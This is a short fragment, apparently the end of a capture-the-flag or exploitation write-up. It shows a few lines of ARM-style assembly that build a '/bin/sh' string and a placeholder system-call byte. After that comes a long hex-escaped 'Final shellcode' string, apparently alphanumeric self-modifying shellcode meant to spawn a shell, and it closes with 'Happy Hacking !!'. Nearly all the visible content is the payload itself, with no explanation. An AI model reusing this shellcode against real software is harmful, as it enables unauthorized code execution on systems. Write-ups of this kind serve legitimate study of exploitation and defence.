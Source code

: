 ```nasm
	subs r1 , 0x41   # r1=0xb
	muls r7 , r1     # r7=0xb
	adds r0, 48
	muls r1 , r2

.byte 0x41 0x41    # svc instruction 
.ascii "AAAAAbinAshA"
```

Final shellcode

> "\x41\x43\x42\x43\x78\x46\x55\x43\x43\x31\x41\x39\x4d\x35\x41\x35\x41\x55\x55\x43\x51\x43\x4d\x35\x42\x35\x41\x55\x55\x43\x51\x43\x61\x31\x70\x31\x32\x39\x4d\x35\x43\x35\x41\x55\x55\x43\x50\x31\x4d\x35\x44\x35\x41\x55\x55\x43\x51\x43\x61\x31\x4b\x39\x4d\x35\x45\x35\x41\x55\x55\x43\x51\x43\x7a\x31\x41\x31\x44\x31\x4d\x35\x46\x35\x41\x55\x55\x43\x51\x43\x7a\x31\x4b\x39\x4d\x35\x47\x35\x41\x55\x55\x43\x70\x31\x42\x31\x4d\x35\x48\x35\x41\x55\x55\x43\x41\x31\x43\x39\x39\x35\x41\x35\x4d\x35\x41\x55\x51\x43\x41\x31\x42\x39\x4e\x42\x46\x43\x4d\x36\x4a\x36\x50\x43\x51\x43\x41\x31\x42\x39\x78\x47\x41\x37\x41\x41\x41\x41\x41\x41\x41\x41\x42\x43\x78\x46\x55\x43\x51\x43\x64\x31\x35\x39\x30\x35\x41\x55\x55\x43\x34\x35\x41\x55\x55\x43\x37\x35\x42\x55\x51\x43\x50\x31\x51\x39\x4f\x42\x51\x43\x4c\x31\x41\x39\x4f\x43\x30\x30\x51\x43\x41\x41\x41\x41\x41\x41\x41\x62\x69\x6e\x41\x73\x68\x41"

Happy Hacking !!

